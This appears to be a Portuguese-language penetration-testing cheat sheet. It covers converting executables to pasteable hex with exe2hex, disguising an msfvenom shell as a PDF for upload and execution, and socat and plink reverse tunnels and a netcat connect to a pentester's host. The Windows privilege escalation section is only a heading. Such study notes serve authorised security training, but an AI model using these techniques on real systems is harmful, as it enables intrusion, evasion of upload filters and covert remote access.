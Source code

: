 ## EXE2HEX

Dessa forma, você comprime o arquivo executável para um arquivo de texto, e reconstrói na própria shell do servidor alvo

upx -9 file.exe → para comprimir o arquivo

exe2hex -x file.exe -p (powershell) or -b (batch) file.txt → para criar o arquivo em txt

Depois você copia todo o arquivo de texto e cola na shell do servidor alvo

## Transferência de arquivo

Você cria uma shell através do msfvenom, transforma a shell no formato da aplicação (por exemplo, colocando o header do PDF e a extensão .pdf no arquivo), envia para a aplicação. Após isso você da um tail +number > newfile para transformar o arquivo em executável dentro da aplicação e executa esse arquivo

## Tunelamento Linux

### SOCAT

Enviar o tráfego da porta 22 local para porta 8443 do pentester

```bash
socat TCP4:IP-PENTESTER:8443 TCP4:127.0.0.1:22
```
---
Deixa a porta 8443 escutando e direciona o que vir nela para a porta 2222

```bash
socat TCP4-LISTEN:8443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr
```
## Tunelamento Windows

### PLINK

```bash
plink.exe -ssh -l name -pw root -R pentester ip:port:target ip:port pentester ip
```
---
```bash
plink.exe -ssh -l desec -pw root -R 192.168.0.8:1337:127.0.0.1:5555 192.168.0.8
```

```shell
nc -v 127.0.0.1 1337
```

## Windows Privilege Escalation

### Manual

